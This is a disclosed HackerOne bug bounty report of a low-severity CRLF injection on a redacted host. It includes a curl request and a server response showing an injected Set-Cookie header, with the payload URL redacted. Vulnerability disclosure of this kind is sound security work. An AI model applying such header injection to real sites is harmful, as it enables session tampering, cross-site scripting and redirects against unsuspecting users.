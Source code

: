 # CRLF Inection at `██████████`

## Report Details
- **Report ID**: 1943013
- **URL**: https://hackerone.com/reports/1943013
- **State**: Closed
- **Severity**: low
- **Submitted**: 2023-04-11T20:55:52.384Z
- **Disclosed**: 2023-06-23T14:58:24.201Z

## Reporter
- **Username**: mo3giza
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mars

## Vulnerability Information
## Summary:

A CRLF Injection attack occurs when a user manages to submit a CRLF into an application. This is most commonly done by modifying an HTTP parameter or URL.

## Steps To Reproduce:

Navigate to this URL
█████:
```
┌──(azab㉿kali)-[~]
└─$ curl -i ███████ 
HTTP/1.1 307 Temporary Redirect
Date: █████ █████████ GMT
Content-Type: text/html
Content-Length: 164
Connection: keep-alive
Server: nginx
Location: ████████
Set-Cookie: CRLF_Injection_By_ze2pac

<html>
<head><title>307 Temporary Redirect</title></head>
<body>
<center><h1>307 Temporary Redirect</h1></center>
<hr><center>nginx</center>
</body>
</html>
```

## Impact

XSS, Open Redirect, HTTP Response Splitting... etc.

## Attachments
No attachments
